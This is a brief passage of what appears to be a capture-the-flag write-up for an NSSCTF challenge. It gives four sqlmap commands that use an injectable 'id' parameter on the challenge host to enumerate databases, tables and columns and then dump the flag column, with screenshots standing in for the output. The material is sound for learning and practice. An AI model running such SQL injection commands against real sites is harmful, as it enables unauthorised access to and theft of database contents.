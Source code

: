 ```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" --dbs
```





![image-20250803204129363](./NSSCTF-2.assets/image-20250803204129363.png)

爆表

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db --tables
```

![image-20250803204309759](./NSSCTF-2.assets/image-20250803204309759.png)

爆字段

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db -T test_tb --columns
```

![image-20250803204426276](./NSSCTF-2.assets/image-20250803204426276.png)

提取内容

```
sqlmap -u "http://node7.anna.nssctf.cn:20140/index.php?id=1" -D test_db -T test_tb -C flag --dump
```

![image-20250803204556739](./NSSCTF-2.assets/image-20250803204556739.png)

